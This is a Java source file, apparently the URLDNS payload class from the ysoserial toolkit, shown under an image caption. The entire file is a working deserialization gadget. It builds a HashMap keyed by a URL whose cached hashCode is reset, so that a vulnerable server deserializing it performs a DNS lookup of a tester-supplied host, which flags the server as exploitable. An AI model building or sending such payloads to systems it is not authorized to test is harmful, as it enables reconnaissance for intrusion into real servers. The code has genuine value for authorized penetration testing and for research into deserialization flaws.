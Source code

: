 ```java
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
 *
 *
 */
@SuppressWarnings({ "rawtypes", "unchecked" })
@PayloadTest(skip = "true")
@Dependencies()
@Authors({ Authors.GEBL })
public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

        /**
         * <p>This instance of URLStreamHandler is used to avoid any DNS resolution while creating the URL instance.
         * DNS resolution is used for vulnerability detection. It is important not to probe the given URL prior
         * using the serialized object.</p>
         *
         * <b>Potential false negative:</b>
         * <p>If the DNS name is resolved first from the tester computer, the targeted server might get a cache hit on the
         * second resolution.</p>
         */
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}
```
